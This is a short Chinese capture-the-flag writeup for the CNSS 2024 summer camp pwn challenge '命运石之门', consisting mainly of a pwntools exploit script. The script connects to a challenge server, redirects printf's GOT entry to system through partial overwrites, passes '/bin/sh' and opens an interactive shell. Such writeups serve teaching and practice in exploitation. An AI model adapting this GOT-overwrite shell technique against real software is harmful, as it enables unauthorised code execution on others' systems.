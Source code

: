 ```yaml
---
layout: post
title: "CNSS2024夏令营pwn方向'命运石之门'writeup"
date:   2024-1-27
tags: [tag1, tag2]
comments: true
author: xxx
---
```


# CNSS2024夏令营pwn '命运石之门' 题解

## **Step0 题目信息**
![pwn1.png](https://vip.helloimg.com/i/2024/08/31/66d284e2dd66c.png)
&emsp;初始分数为1000分
&emsp;
![pwn2.png](https://vip.helloimg.com/i/2024/08/31/66d284e82859a.png)
&emsp;如你所见，没有任何hint，从描述上也看不出所以然
&emsp;

## **Step1 文件检查**
### &emsp;附件:<br>&emsp;&emsp;attachment:[attachment](https://)
```python
from pwn import *

def debug(cmd=''):
    gdb.attach(io, cmd)
    pause()

context.log_level = "debug"
##io = process("./pwn")
io = remote("152.136.11.155", 10027)
elf = ELF("./pwn")
libc = ELF("./libc.so.6")

# datas
printf_got = elf.got["printf"] # 0x404028
##system_got = elf.got["system"]
system_plt = elf.plt["system"]
timeline_pid = 0x4012AB

# Dest = 0x4040B8
io.sendafter(b'Input the Destination:\n', p64(printf_got)) # Dest -> printf_got
sleep(0.05)

io.sendafter(b'Input the impact:', p8(0x40)) # printf_got -> system_got
payload = b'a'*0x18 + p8(0xab) # time = 0 ; call fork()
io.send(payload)
sleep(0.05)


io.sendafter(b'Input the Destination:\n', b'/bin/sh\0')
payload = b'a'*0x18 + p8(0xb5) # call fork()
##io.sendafter(b'Input the impact:', b's') # s
io.send(payload)
sleep(0.05)

payload = b'a'*0x18 + p8(0x48) # 0x401248 ret
##io.sendafter(b'Input the impact:', b's') # s
io.send(payload)
sleep(0.05)

io.interactive()

```

